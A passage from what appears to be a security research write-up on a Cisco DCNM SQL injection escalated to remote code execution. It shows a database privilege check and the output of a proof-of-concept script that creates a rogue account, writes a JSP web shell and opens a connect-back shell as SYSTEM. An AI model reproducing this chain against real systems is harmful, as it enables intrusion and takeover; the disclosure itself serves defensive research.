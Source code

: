 ```xml
            <arg1></arg1>
            <arg2></arg2>
            <arg3></arg3>
        </ep:getVmHostData>
    </soapenv:Body>
</soapenv:Envelope>
```

The SQL Injection is running as user `dcnmuser`.

```bash
root@localhost ~]# psql -U dcnmuser dcmdb
Password for user dcnmuser: 
psql.bin (9.4.5)
Type "help" for help.

dcmdb=> \du dcnmuser
           List of roles
 Role name | Attributes | Member of 
-----------+------------+-----------
 dcnmuser  |            | {}

dcmdb=> select distinct privilege_type FROM information_schema.role_table_grants where grantee=current_user;
 privilege_type 
----------------
 UPDATE
 REFERENCES
 TRIGGER
 INSERT
 SELECT
 DELETE
 TRUNCATE
(7 rows)
```

Checking the database permissions, we can see that we have limited privileges and we can't use commands such as `copy` or `lo_import` to read/write to the filesystem. However, after some investigation, I found several ways to achieve remote code execution. Please see the [SQLi2RCE Primitives](#sqli2rce-primitives) section for details on some of the ways.

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback>
(+) eg: ./poc.py 192.168.100.122 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.122 192.168.100.59:1337
(+) created the account hacker:Hacked123
(+) created the 1337/custom path!
(+) leaked vfs! temp230cf31722794196/content-ed98b5003b1c695c
(+) SQL Injection working!
(+) wrote the si.jsp shell!
(+) cleaned up the database!
(+) starting handler on port 1337
(+) connection from 192.168.100.122
(+) pop thy shell!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Cisco Systems\dcm\wildfly-10.1.0.Final\bin\service>whoami
whoami
nt authority\system

C:\Program Files\Cisco Systems\dcm\wildfly-10.1.0.Final\bin\service>
```
